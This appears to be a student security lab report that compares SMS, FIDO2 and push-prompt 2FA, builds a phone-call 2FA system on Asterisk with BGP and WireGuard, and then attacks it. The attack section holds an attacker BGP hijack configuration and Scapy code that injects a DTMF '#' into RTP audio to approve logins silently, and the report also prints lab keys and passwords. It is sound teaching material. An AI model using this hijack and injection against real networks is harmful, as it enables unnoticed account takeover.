

# CS4404 Mission 2(FA)
Jake Ellington and Nate Sales

# Reconnaissance
## SMS

### Overview

SMS 2FA is typically implemented where a provider sends a randomly generated, short lived numerical pin over SMS to a user's device. The user then enters this code into the website to prove that they are in possession of the cellular device. Like other 2FA designs, the goal of SMS is to provide another layer of authentication for a user.

### Failures

The most significant problem with this design is that SMS isn't encrypted in transport. An on-path adversary is able to intercept the pin over the air or over the telco's backend infrastructure, typically involving a routing protocol like SS7 [1].

An alternate means of compromise is SIM swapping - where an attacker convinces the phone company to reroute a victim's texts and calls to a phone under the attacker's control [2]. SIM swapping is not just a hypothetical attack but has been used recently in major cryptocurrency thefts such as the theft of $24 Million in bitcoin [3]. This attack involves re-assigning a phone number from one SIM card to another. This can be done either by social engineering telco employees, bribing them, or simply stealing the tablet out of the hands of a telco store manager. This is a significant issue as the attack is relatively low skill and is a vulnerability at the transport level. The flaws with SMS 2FA cannot be addressed by the authenticating party other than simply not using it. These transport-level vulnerabilities also apply to telephony-based authentication systems.

### Successes

The primary advantage to SMS 2FA is that it "just works."  Other authentication mechanisms require a user to install an application on their smart phone which may be incompatible or require the user to purchase a hardware token which can be cost-prohibitive, especially at scale. However, SMS is an old, well tested, and extremely widespread protocol. No matter what hardware you have, SMS will probably work and is not difficult for technically illiterate users to set up. In this sense, SMS is successful because it is still much better than nothing. Security practices are only effective if people actually use them after all. SMS does also have the advantage that an attack consisting of simply bombarding the user with authentication requests is less likely to work as the right code must be matched with the right request.

[1] https://usa.kaspersky.com/blog/ss7-hacked/17099/

[2] https://blog.mozilla.org/en/internet-culture/mozilla-explains/mozilla-explains-sim-swapping/

[3] https://markets.businessinsider.com/currencies/news/bitcoin-investor-loses-24-million-of-crypto-sim-swap-hackers-2019-11-1028677818

## FIDO

### Overview

FIDO2 is an authentication mechanism that uses asymmetric key signing. When a FIDO2 device is added as an MFA method to a website, the website stores the device's public key. Subsequently when the user logs in, the website sends a challenge to the device, which signs the challenge with its private key and sends the signed message back to be verified with the public key. 

The security goal of this factor is authenticity. It proves that the person attempting to access the account has a FIDO2 device with a private key that corresponds to the public key that the server knows. This method assumes that the server generates unique challenges, that the FIDO2 key does not divulge its private key, and that the hardware token can be trusted.

### Failures
A notable failure of a FIDO2 device was the audit of the NitroKey FIDO USB token including the disclosure of CVE-2020-12061 which scored 9.8. This CVE was one of many issues discovered in a security assessment by cure53. This included hardware flaws such as oboard components communicating in the plane allowing an attacker to steal any secrets stored in the device and manipulate its firmware if they had physical access. Of course this is not an attack that can be done easily or on a large scale, but running arbitrary code on a security device is a major issue. Additionally, the firmware had other issues that allowed an attacker to bypass password protection to generate OTP codes. Additionally, the microcontroller's security bit was unset by default, allowing an attacker to overwrite program code on the device. These exploits would allow an attacker to use the device to generate authentication codes without user approval or steal the FIDO2 private key and effectivley make a clone of the device. 

### Successes

While the NitroKey failures do significantly decrease security against a targeted, high skill attacker, it was still secure to the vast majority of attacks. An attacker would need either physical access to the key or remove access to the user's computer with the key connected. The far more likely threat vector of mass credential stuffing from a remote attacker would not be able to access the account as the FIDO2 protocol was not broken, only the physical hardware had issues. Other hardware tokens like the YubiKey have seen widespread usage and success.

## Prompt Authentication

### Overview

Multiple providers, namely Google and Microsoft, offer app-based authentication. When a user logs in to an untrusted device, they are prompted to "tap yes on {PHONE NAME} to approve sign in." When the user presses yes in the app, it communicates with the provider's servers and allows the sign in. Google has a variant of this system which displays a number on the machine trying to log in and several numbers on the authenticating phone. The user must tap the correct number to allow the sign in. 

### Failures

One issue with this system is that of availability. Unlike TOTP based authentication apps, prompt-based apps require the user's phone to have a stable network connection. Additionally unlike SMS, they require that the user's phone be running an up to date mainstream mobile operating system (Android or iOS). This raises issues of availability and convenience which may drive users to simply turn 2FA off. 

The major issue with prompt based authentication, specifically the Yes/No variant, is prompt spamming. This is when an attacker sends repeated requests for authentication to a user's device and hopes that one of the times they slip up and accidentally approve the request. Notably, this was used to compromise some Twitter employee accounts in 2020. 

### Successes

While prompt spamming is an issue for prompt authentication, there are already mitigations for this attack such as Google's number-based prompt. Additionally, these prompts are often secured by the phone's on-board security such as Face ID authentication to approve Microsoft Authenticator requests, whereas SMS or phone calls can often be read when the device is locked. Finally, this system is not vulnerable to the transport vulnerabilities plaguing SMS and telephony as all communications between the app and server are TLS encrypted. This authentication method offers ease of use for most users, no cost overhead, and better security than SMS not including human error. 

# Infrastructure
The infrastructure for this project consists of a web server, an automated VOIP system that dials users and prompts for authentication, and corresponding VOIP infrastructure to allow the calls to be placed. All servers were hosted on a private cluster with public IP addresses due to difficulties with accessing the class VMs through GlobalProtect (it throws SSL errors or won't install  on Linux). 



*Figure 1. Infrastructure design overview*

## Webserver

The webserver for this project is a modified version of the voting server from mission 1. It is a Rust binary built with the Rocket API with an sqlite database to keep track of user data and credentials. Anonymity is not a security goal of this system, user authorization is verified with an encrypted cookie whose content is the user's username and a flag indicating whether or not the user has authenticated via phone. This cannot be faked by the client as the cookie is signed and encrypted with a key known only to the server. 

When a user logs in to the webserver, it hashes their password with Argon2 and compares it with the user's record in the database. If these match, the user is given the aforementioned cookie with the MFA flag set to zero. For example, the user `jmellington`'s cookie's decrypted value would be `jmellington0`. The client browser is then redirected to the content page that checks for the authorization cookie when the page is loaded. If the cookie is not present or invalid, the user gets sent back to the login page. If the cookie is present but the MFA flag is unset, the database is queried to see if the user did complete MFA since the last check and updates the flag accordingly. If the user has not, the webpage issues a server-side GET authorization request from the autodialer's API endpoint containing the client's phone number. This is similar in structure to SSO. If the user did complete MFA, the autodialer makes a POST to an endpoint on the webserver, the user's token is re-issued with the MFA flag set, and the homepage will display its content. 

## Autodialer
The Autodialer is a python program build with flask for the API endpoint and pyvoip for VOIP operations. When it receives an authorization request over http it places a call to the user's phone number, it plays a pre-recorded message instructing the user to press pound to authorize their login and waits. If it detects the Dial Tone Multi Frequency (DTMF) code (941Hz and 1477Hz) for the pound key, it sends a POST to the webserver that the phone number was authorized successfully. If no such code is detected after 16 seconds, it notifies the server that the authorization was not successful and hangs up. In this configuration, the autodialer service is hosted on the same VM as the webserver (VM 1). As such, the API endpoint only listens on the localhost `127.0.0.1` interface, protecting it from outside manipulation. 

## PBX
We use a PBX (Private Branch Exchange) to simulate a telephone network. The 2FA autodialer signals the PBX to set up the call via SIP and transmits a prerecorded audio stream as voice over RDP. The PBX runs the open source Asterisk telephony server, which contrary to industry standards, is rarely distributed in binary form so we have to compile from source.

#### Build and Install Asterisk

We begin by downloading and extracting asterisk as a source tarball from their repository:

```bash
wget https://downloads.asterisk.org/pub/telephony/asterisk/asterisk-20-current.tar.gz
tar -xvzf asterisk-20-current.tar.gz
rm asterisk-20-current.tar.gz
cd asterisk-20.0.0
```

We then install build dependencies with `sudo contrib/scripts/install_prereq install`, set up the build with `./configure` and compile asterisk with `make`. When it's finished compiling, we run the make tasks with `make install samples config` to copy compiled assets to the appropriate system directories as well as generating documentation and configuration samples. Finally, we run `ldconfig` to update links and caches for the system's shared libraries.

#### Configure Asterisk

The core of Asterisk's call routing engine is it's dialplan. The dialplan defines how calls are routed to and from the PBX. We create the `/etc/asterisk/extensions.conf` dialplan config file and add our call routing logic:

```
; The outbound call context defines an entrypoint to a list of call routes
[outbound]

; Extension 100 doesn't exist as a phone anywhere - instead, it reads back the number you're calling from
exten = 100,1,Answer()
	same = n,SayDigits(${CALLERID(num)})
	same = n,Hangup()

; Route extensions 10, 20, and 30 to their respective PJSIP endpoints
exten = 10,1,NoOp()
	same = n,Dial(PJSIP/10,60)
	same = n,Hangup()
exten = 20,1,NoOp()
	same = n,Dial(PJSIP/20,60)
	same = n,Hangup()
exten = 30,1,NoOp()
	same = n,Dial(PJSIP/30,60)
	same = n,Hangup()
```

Asterisk uses a modular approach for it's program structure. It's old SIP stack, simply named `sip` has been deprecated in favor of a third party telephony protocol stack called `pjsip`, including standards compliant implementations for SIP for signalling, SDP to tie SIP sessions to media streams, and RTP to carry media (including voice traffic). We configure `pjsip` with the `/etc/asterisk/pjsip.conf` configuration file:

```
[transport-udp]
type = transport
protocol = udp
bind = 0.0.0.0

[10]
type=endpoint
context=outbound
disallow=all
allow=ulaw
auth=10
aors=10
[10]
type=auth
auth_type=userpass
password=a78674e839d4
username=10
[10]
type=aor
max_contacts=5

[20]
type=endpoint
context=outbound
disallow=all
allow=ulaw
auth=20
aors=20
[20]
type=auth
auth_type=userpass
password=a78674e839d4
username=20
[20]
type=aor
max_contacts=5

[30]
type=endpoint
context=outbound
disallow=all
allow=ulaw
auth=30
aors=30
[30]
type=auth
auth_type=userpass
password=a78674e839d4
username=30
[30]
type=aor
max_contacts=5
```

Here we define a UDP transport and 3 internal extensions: 10, 20 and 30. Each extension includes 3 configuration stanzas:

- `[aor]`: Address On Record, which defines how many addresses should be allowed to send a SIP `REGISTER` packet to identify a UE (User Equipment, in our case a softphone)
- `[auth]`: Simple username/password authentication
- `[endpoint]`: Defines a complete extension, referencing the `aor` and `auth` configs, voice codec support, and a routing context to direct calls from this extension to the `outbound` dialplan block

With our PBX configuration finished, we restart asterisk with `sudo systemctl restart asterisk` to apply the config changes.

#### Configure BGP on the PBX

In the real world, a PBX typically wouldn't also be a BGP speaker - multiple PBXes would likely live behind external BGP routers. For our infrastructure, we simplify our setup by running a BGP daemon on the PBX directly.

We begin by installing BIRD (BIRD Internet Routing Daemon) on the PBX with `sudo apt install -y bird2`, then configure the package in the `/etc/bird/bird.conf` configuration file:

```
# The BGP Router ID identifies a unique BGP speaker
router id 192.168.0.16;

# Our static protocol keeps a persistent local route in BIRD's internal routing table
# notably this is NOT the same as the kernel routing table (FIB).
protocol static static4 {
  ipv4;
  route 192.0.2.0/24 reject;
}

# Log to syslog
log syslog all;

# The device and direct protocols retrieve local routes and interface state from the the kernel via netlink. Most importantly, they report when an interface changes state to the BGP implementation, and ensure routes on local interfaces aren't overridden by routes from higher level protocols like BGP
protocol device {};
protocol direct { ipv4; ipv6; }

# The kernel protocol synchronizes routing tables between BIRD's internal table and the kernel FIB.
protocol kernel {
  ipv4 {
    import all;
    export all;
  };
}

# We define a BGP peer config template to apply to each peer
template bgp PEER {
  # Treat this peer as a route server client, which doesn't add the local ASN to the AS path
  rs client;
  ipv4 {
    import all;
    export filter {
      # Only annoucne 192.0.2.0/24 to peers
      if (net = 192.0.2.0/24) then {
        # Rewrite the AS path to be 65510 65520
        bgp_path.empty;
        bgp_path.prepend(65520);
        bgp_path.prepend(65510);
        accept;
      }
      reject;
    };
  };
}

# Peer with the ISP gateway
protocol bgp AS65530 from PEER {
  local 192.168.0.16 as 65520;
  neighbor 192.168.0.17 as 65530;
}

# Peer with the attacker
protocol bgp AS65540 from PEER {
  local 192.168.0.16 as 65520;
  neighbor 192.168.0.18 as 65540;
}
```

For simplicity, we modify the AS path between the PBX and ISP gateway to include an extra AS hop of AS65510. This represents a network setup where the client has an upstream ISP (AS65510) that prepends it's AS to path. (See figure 1 above).

With BGP complete, we add a dummy interface to the PBX within our BGP-announced prefix (192.0.2.0/24) for Asterisk to listen on:

```
ip link add type dummy name dummy0
ip addr add dev dummy0 192.0.2.1/24
ip link set dev dummy0 up
```

Finally, we restart BIRD to apply it's configuration: `sudo systemctl restart bird`.

## Configure the ISP Gateway

The ISP gateway is a VM that represents a simple Internet Service Provider. It peers with the PBX over BGP, and runs a WireGuard VPN server for softphones to connect to. The BGP configuration is identical to that of the PBX, except we announce the ISP's prefix 203.0.113.0/24 and use the ISP's ASN of 65530.

#### Install and configure BGP on the ISP gateway

We begin by installing BIRD with `sudo apt install -y bird2`, then modifying it's config in `/etc/bird/bird.conf`:

```
router id 192.168.0.17;

protocol static static4 {
  ipv4;
  route 203.0.113.0/24 reject;
}

log syslog all;
protocol device {};
protocol direct { ipv4; ipv6; }

protocol kernel {
  ipv4 {
    import all;
    export all;
  };
}

template bgp PEER {
  rs client;
  ipv4 {
    import all;
    export filter {
      if (net = 203.0.113.0/24) then {
        bgp_path.empty;
        bgp_path.prepend(65530);
        bgp_path.prepend(65510);
        accept;
      } else {
        reject;
      }
    };
  };
}

protocol bgp AS65520 from PEER {
  local 192.168.0.17 as 65530;
  neighbor 192.168.0.16 as 65520;
}

protocol bgp AS65540 from PEER {
  local 192.168.0.17 as 65530;
  neighbor 192.168.0.18 as 65540;
}
```

#### Install and configure WireGuard

We use WireGuard as a layer 3 VPN to bring softphone clients into the ISP's network. We begin by installing WireGuard with `sudo apt install -y wireguard`.

We then generate an asymmetric keypair for WireGuard with the `wg` utility:

```bash
gateway:~# wg genkey
SFiyFLVcv1xeRLBgw/n372Fi7p6BbKy58p0OUhRiKHI=
gateway:~# echo 'SFiyFLVcv1xeRLBgw/n372Fi7p6BbKy58p0OUhRiKHI=' | wg pubkey
zcRyPZL6OnoRZZD417oNNHaZy0zMTF+W0l4MyRyaC28=
```

Next, we create a WireGuard interface config file in `/etc/wireguard/wg0.conf`:

```
[Interface]
# The local asymmetric keypair
# Public zcRyPZL6OnoRZZD417oNNHaZy0zMTF+W0l4MyRyaC28=
PrivateKey = SFiyFLVcv1xeRLBgw/n372Fi7p6BbKy58p0OUhRiKHI=
# Local WireGuard interface's IP
Address = 172.16.16.1/24
# WireGuard UDP listen port
ListenPort = 51820
# Create a dummy interface for the ISP router
PreUp = ip link add dev dummy0 type dummy; ip addr add dev dummy0 203.0.113.1/24; ip link set dev dummy0 up
PreDown = ip link del dummy0

# Define a softphone peer with the peer's public key and client IP
[Peer]
PublicKey = jGhdaOmVf2BG72kqTknGlkV5CD/2kOzYfzSwVNtH9Gs=
AllowedIPs = 172.16.16.2/32
```

Finally, we bring the interface up with `sudo systemctl enable --now wg-quick@wg0`

### Softphone Client

On a linux laptop, we install WireGuard and generate a keypair

```
client:~# pacman -S wireguard-tools
client:~# wg genkey
jGhdaOmVf2BG72kqTknGlkV5CD/2kOzYfzSwVNtH9Gs=
client:~# echo 'jGhdaOmVf2BG72kqTknGlkV5CD/2kOzYfzSwVNtH9Gs=' | wg pubkey
SE7k739FKBrjGuJrjaEXMZHKZjVVg/Wgwk0FbBx5als=
```

We then create a WireGuard interface config file in `/etc/wireguard/wg0.conf` to connect to the server:

```
[Interface]
# Public jGhdaOmVf2BG72kqTknGlkV5CD/2kOzYfzSwVNtH9Gs=
PrivateKey = SE7k739FKBrjGuJrjaEXMZHKZjVVg/Wgwk0FbBx5als=
Address = 172.16.16.2/24

[Peer]
PublicKey = zcRyPZL6OnoRZZD417oNNHaZy0zMTF+W0l4MyRyaC28=
AllowedIPs = 172.16.16.1/32,203.0.113.0/24
Endpoint = 192.168.0.17:51820
```

And bring the interface up with `sudo systemctl enable --now wg-quick@wg0`

# Attack
## Reconnaissance

### Webserver
The first step in exploiting a web service is to explore the developer tools while interacting with it. We first logged in as normal and analyzed the authentication cookie it gave us. We noticed that it changed when we successfully authenticated with MFA but that the cookie value was completely different across different sessions for the same user, so a replay would not be possible. This is due to the server's use of NONCE values when encrypting and signing the cookies.

Not being able to attack cookies, we looked at the network section of the developer tools and noticed that in most cases, the website only made a single GET or POST to the webserver, as expected. However, during two factor authentication, it makes another GET to an external resource before the content is loaded. This GET turned out to be a goldmine as it gave us two critical pieces of information: the first was that authentication is handled by the server at the address `REPLACEME`. The second piece of information was that this GET leaked the full phone number of the user. As shown in the figure below, the webpage usually censors the phone number in the format `(***)-***-XXXX`, however the GET contained the full phone number of the user for 2FA. Now we know both the client and server responsible for the authentication process.

### VOIP

The next step was to see how SIP and RTP packets were handled on the network. To do this, we logged in as a legitimate user and installed scapy and a softphone on a laptop on the network. We then initiated the authentication process and used the `sniff()` function to capture the traffic. Sample RTP and SIP packets are shown below:

```python
RTP:
<Ether  dst=e2:08:0d:bf:31:82 src=72:fe:16:95:d3:0e type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=120 id=9903 flags=DF frag=0 ttl=51 proto=udp chksum=0x5769 src=130.215.126.203 dst=XX.XX.XX.XX |<UDP  sport=49094 dport=13418 len=100 chksum=0x3ccc |<Raw  load='\x80\x00\x0b%G\xc0V\x1d%C\xe0\xb0\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb2\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb2\xb1\xb1\xb1\xb1\xb1\xb1\xb1\xb2\xb2\xb2\xb2\xb2\xb2\xb1\xb2' |>>>>
```

```python
SIP:
<Ether  dst=e2:08:0d:bf:31:82 src=72:fe:16:95:d3:0e type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=592 id=19185 flags=DF frag=0 ttl=35 proto=udp chksum=0x6c34 src=20.203.193.242 dst=XX.XX.XX.XX |<UDP  sport=5155 dport=sip len=572 chksum=0x5698 |<Raw  load='REGISTER sip:XX.XX.XX.XX SIP/2.0\r\nVia: SIP/2.0/UDP 10.5.0.4:5155;branch=z9hG4bK-3073724805;rport\r\nContent-Length: 0\r\nFrom: "2222" <sip:2222@XX.XX.XX.XX>;tag=323232323a436c61726f4e4f4301333936383734323032\r\nAccept: application/sdp\r\nUser-Agent: FPBX\r\nTo: "2222" <sip:2222@XX.XX.XX.XX>\r\nContact: sip:XXX@XX.XX.XX.XX\r\nCSeq: 2 REGISTER\r\nCall-ID: XXXXXXXX\r\nMax-Forwards: 70\r\nAuthorization: Digest username="XXXX",realm="asterisk",nonce="XXXX",uri="sip:XX.XX.XX.XX",response="bf06c829a2b5cbb9ec797be8ff4ce046",algorithm=MD5\r\n\r\n' |>>>>
```

Sensitive data such as some IP addresses have been replaced with `XX`. 

Both communication types are identified as a raw UDP payload, however they are easily differentiable due to the different ports used and the fact that the RTP data is raw bytes. 

## Setting up virtual interfaces
todo: talk about adding another nic on a vlan for communications with the pbx

## BGP Hijack

### Attack Setup

In order to become on-path, we established BGP sessions to the VoIP network and ISP gateway. Our infrastructure simulates an Internet Exchange where providers would peer with other organizations in order to exchange routing information between their networks. 

We install BIRD on our attacker VM with `sudo apt install -y bird2` and create a config file at `/etc/bird/bird.conf`:

```
router id 192.168.0.18;

# Our goal is to have bidirectional control over the traffic between the VoIP and ISP networks, so we need to hijack both directions 
protocol static static4 {
  ipv4;
  route 192.0.2.0/24 reject;
  route 203.0.113.0/24 reject;
}

log syslog all;
protocol device {};
protocol direct { ipv4; ipv6; }

protocol kernel {
  ipv4 {
    import all;
    export all;
  };
}

protocol bgp AS65520 {
  local 192.168.0.18 as 65540;
  neighbor 192.168.0.16 as 65520;
  rs client;
  ipv4 {
    import none;
    export filter {
      if (net = 203.0.113.0/24) then {
        bgp_path.empty;
        bgp_path.prepend(65530);
        accept;
      }
      reject;
    };
  };
}

protocol bgp AS65530 {
  local 192.168.0.18 as 65540;
  neighbor 192.168.0.17 as 65530;
  rs client;
  ipv4 {
    import none;
    export filter {
      if (net = 192.0.2.0/24) then {
        bgp_path.empty;
        bgp_path.prepend(65530);
        accept;
      }
      reject;
    };
  };
}
```

## Admiral Crunch
Now that BGP manipulation has put us in-path between the authentication system's PBX and the target's phone, we have to actually manipulate the pertinent traffic to allow the login without being detected. To sniff and manipulate traffic, we are using Scapy which is a CLI utility and python library that allows for packet capture and generation. To capture packets, we use Scapy's `bridge_and_sniff` function which allows us to forward traffic from one interface to the other while inspecting and tampering with any traffic flowing through. In our configuration, `enp5s0` was facing the PBX and `enp5s1` was facing outward. This is set up in the second to last line in the program: 

```python
packetlog = scapy.sendrecv.bridge_and_sniff(if1='enp5s0',if2='enp5s1',xfrm12=gatekeep, xfrm21=keepgate)`. 
```

The `xfrmXX` arguments are functions that are called for every packet moving from if1 to if2 or vice versa. We'll first look at gatekeep, the function responlsible for handling PBX to client communication. It first checks if the packet is related to VOIP and if it isn't automatically forwards it with no modification. 

```python
if not pkt.haslayer("UDP"): 
    return True
```

Scapy automatically classifies packets by their payloads and a captured packet includes all layers from the Ethernet frame to the application specific protocol. However, it does not have support for the SIP protocol which is responsible for establishing VOIP calls, hence the 'Raw' packet type. If last layer of the packet is Raw and destined for port 5060, we assume it's SIP and parse it as such. If the packet is an INVITE, we grab the to and from extensions which allows us to associate a phone number to an IP address and create a new `conversation` object. If the packet is a BYE, we discard the conversation object. Otherwise, just allow it through. 

If the call originates from the authentication server's extension, the call automatically enters "enforcing" mode after 1.5 seconds. If an RTP packet comes from the PBX whose conversation is in enforcing mode, it's original payload is removed and replaced with innocuous audio before then being forwarded. This ensures that the user does not become suspicious when the system gives the response "authentication successful" when they authorized no such authentication.
When the conversation goes into enforcing mode, the `keepgate` function which is controlling traffic from clients to the PBX, starts manipulating RTP data. Using the same process as above, it injects the DTMF code for "#" into the call by replacing audio packets originating from the user. The function to replace the packets is as follows:

```python
def manipulate(self, pkt: Packet):
    content = self.txbuff.read(160)
    #try to read 1 packet worth of data from audio buffer
    #if we don't have enough for a full packet, just let the OG packet through
    if len(content) < 160:
        logging.info("Done with DTMF transmission")
        return pkt
    # Encode payload for PCMU transmission
    content = audioop.bias(content, 1, -128)
    content = audioop.lin2ulaw(content, 1)
    # Replace payload with DTMF code
    pkt.lastlayer().remove_payload()
    pkt.lastlayer().add_payload(content)
    return pkt
```
This approves the authentication without the user's interaction (other than picking up the phone) or knowledge.

# Defense
## Telephony
There are a number of defenses which would add complexity to the attack and make it harder to compromise, however none of them could truly prevent an attack of this nature. For example, one defense would be rather than the user just pressing pound, display a code on the website that they must enter into the phone, (this could also be done the other way around). While this would require more complexity on the part of the man in the middle software, the attacker still has access to the website and the phone call so they can still forge authentication. In fact, a system where a code is read over the phone and entered on the website only requires the attacker to be on-path rather than in-path. Due to the nature of telephony and the transport layer vulnerabilities, automated calls will never be an infallible second factor. A low skill attacker can just steal the phone as most phones allow a user to answer a call without unlocking the device by default. A mid-tier attacker could social engineer a telco employee and SIM swap. A hypothetical state actor such as the Not-real Shueworld Adversary (NSA for short) may already have equipment in-path in collaboration with the service provider. Due to these factors and the lack of cryptography by default, this method is simply too insecure against a motivated, targeted adversary.

While the best defense is to prevent an attacker from getting on-path via BGP security, this cannot be done by a website and must be done by service providers. What websites could do is offer better authentication methods such as TOTP and FIDO2. And, critically, not allow telephony as a fallback if the user cannot authenticate by the more secure means. A chain is only as strong as its weakest link. 


## BGP

- Peerlock
- AS path filtering
